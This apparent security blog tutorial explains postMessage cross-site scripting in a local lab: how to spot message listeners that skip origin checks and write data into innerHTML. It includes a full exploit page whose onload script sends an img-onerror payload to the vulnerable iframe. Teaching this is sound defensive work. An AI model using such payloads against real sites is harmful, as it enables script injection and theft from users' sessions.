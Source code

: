 # INTRODUCTION

Due to the same-origin policy, scripts from different pages cannot interact with each other. They are only permitted to access each other if the pages they originate from share the same protocol, port number, and host. This policy is in place to prevent websites from attacking each other. Without the same-origin policy, visiting a malicious website could potentially allow it to access your emails from Gmail, private messages from Facebook, and so on.

However, this policy introduces restrictions that can limit functionality in web applications requiring cross-origin communication. For instance, consider a web application that embeds a third-party payment gateway within an iframe. The main page needs to communicate with the payment gateway to process transactions. Due to the same-origin policy, the main page cannot directly interact with the iframe's content because they originate from different domains.

To address these challenges, window.postMessage() is introduced. It is a method that safely enables cross-origin communication between Window objects. For example, it facilitates communication between a page and a pop-up it spawned, or between a page and an iframe embedded within it. This is achieved by using the postMessage method to send data from the sender's side and setting up an event listener to receive the data on the receiver's side.

For instance, to send a message to a third-party iframe embedded within a webpage, you can utilize the postMessage method. This method specifies both the message content to be sent and the target origin as follows:

```javascript

thirdPartyIframe.contentWindow.postMessage(message, 'https://third-party.com');

```
Here, it accesses the window object of the embedded iframe, then invokes postMessage method to send the message to the iframe's window, ensuring it is received only by iframes loaded from the specified targetOrigin ('https://third-party.com').

On the receiving side, the iframe must implement an event listener using addEventListener to receive the message sent from the sender:

```javascript

window.addEventListener('message', function(event) {
        const response = event.data;
});
```

This allows exchange of data between different parts of a web application while adhering to browser security policies. However, using postMessage insecurely could lead to vulnerabilities like XSS (Cross-Site Scripting) as demonstrated below.

# LAB SETUP

For this demo, we set up a local web server running at 127.0.0.1, and we added host file entries for three different origins:

- mainweb.com: This is the main web page that embeds the third-party web page and sends messages to thirdparty.com using postMessage.
- thirdparty.com: This acts as the third-party site, receiving and processing messages from any domain.
- exploit.com: This is the attacker domain where the malicious script is hosted to exploit the XSS vulnerability in thirdparty.com.

# IDENTIFYING POSTMESSAGE XSS

To identify postMessage XSS, we first need to determine : 

- Whether the target application utilizes web messaging.
- Whether the origin of the sender is validated on the receiving eventlistener.
- Whether the message event is handled using functions or attributes that can lead to an XSS. 

Let's start with the first point. The most effective method to identify the use of postMessage in a web application is by utilizing the global search option in the developer tools. This allows us to search for specific keywords in the JavaScript files, such as postMessage(), addEventListener, and others.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool.png)

As we can see, by using developer tool, we're able to identify the usage of postMessage in this web application. Let's examine the file.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-mainweb.png)

This is straightforward: it uses postMessage to send a message to the webpage embedded within it, specifically thirdparty.com/receiver.html. With this understanding, let's now analyze the event listener responsible for processing the message. We can employ the same method to search for the addEventListener keyword.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool1.png)

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-thirdparty.png)

By analysing the event listener, we can see it doesn't validate the origin of the message, this means it can receive and process a message originating from any domain. This is useful for attacker as his malicious script needs to be hosted in different domain, so without origin validation, attacker can have his script hosted in malicious website and get his payload handled and processed by the event listener of the vulnerable website.

Lastly, we need to examine the functions or attributes used to handle the message event. To do this, we first need to know the list of functions and attributes that could lead to XSS.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/listfunc1.png)

There is a possibility of XSS if any of the mentioned functions or attributes are used to handle a message event. In our case, document.innerHTML is used to display the message on the webpage, which can lead to XSS vulnerabilities if the message is not properly sanitized or validated.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-function.png)

Therefore, we can craft an XSS payload, host it on our malicious website, and trick a user into visiting our site. This will trigger our script, which will then send the payload to the vulnerable website, causing it to execute and resulting in an XSS attack.

# EXPLOITING POSTMESSAGE XSS

Since we have identified the use of web messaging and the possibility of an XSS attack on the vulnerable application, we will attempt to exploit it by crafting a malicious payload and hosting it on our malicious domain, exploit.com. The payload will be written as follows:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PostMessage XSS Exploit</title>
    <script>
        function sendExploitMessage() {
            const targetWindow = document.getElementById('targetIframe').contentWindow;
            const maliciousMessage = '<img src=x onerror=alert("Exploited")>';
            targetWindow.postMessage(maliciousMessage, '*');
        }

        window.onload = function() {
            sendExploitMessage();
        }
    </script>
</head>
<body>
    <h1>PostMessage XSS Exploit</h1>
    <iframe id="targetIframe" src="http://thirdparty.com/receiver.html" width="600" height="400"></iframe>
</body>
</html>

```
The sendExploitMessage() function is designed to send the payload to the vulnerable website. The message contains our XSS payload. Whenever a victim visits our malicious site, the window.onload event will automatically call sendExploitMessage, which sends our payload to the vulnerable page at thirdparty.com/receiver.html. This will trigger the payload, resulting in an XSS attack.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/exploit.png)

Upon visiting the malicious site, our XSS payload executes on the vulnerable endpoint within the thirdparty.com domain.

# Mitigations

- If the application does not require communication such as receiving messages from other websites, it is advised to not utilize the event listeners for the message events unnecessarily.
- Always verify the sender’s identity using the origin.
